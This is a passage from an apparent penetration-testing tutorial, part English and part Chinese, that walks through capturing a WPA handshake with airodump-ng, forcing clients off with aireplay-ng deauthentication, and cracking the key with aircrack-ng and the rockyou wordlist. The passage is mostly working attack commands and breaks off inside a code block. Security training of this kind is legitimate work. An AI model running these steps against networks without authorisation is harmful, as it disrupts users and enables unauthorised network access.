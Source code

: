 3.  Now that we have a list of available wireless networks and our network BSSIDs and ESSID available, we can start capturing the packets dedicated to that channel only:

    ```
          airodump-ng --bssid xx:xx:xx:xx:xx:xx -c X --write WPACrack        wlan0mon

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_10_019.jpg)

4.  Now we will have to de-authenticate an existing client to capture their handshake request to the wireless router as it will contain the authentication creds. Only during deauth will we be able to successfully capture the encrypted password:

    ```
          aireplay-ng --deauth 1000 -a xx:xx:xx:xx:xx:xx wlan0mon

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_10_020.jpg)

5.  现在，经过身份验证的用户将被迫重新验证近 1000 次，之后，如果我们查看右上角的`airodump-ng`，我们将发现 WPA 握手，这意味着我们已经成功捕获了流量。我们现在可以通过按*Ctrl*+*C*终止转储。身份验证数据包越多，破解密钥的机会就越大。
6.  We will now commence with the WPA cracking on the dumped file. We need to note that the file name gets saved in multiple extensions and gets appended by `-01` based on iteration numbers; `rockyou.txt` is a dictionary of words containing popular passwords and alphanumeric combinations that will be used against the capture file to guess the password:

    ```
          aircrack-ng WPACrack-01.cap -w /usr/share/wordlists/rockyou.txt
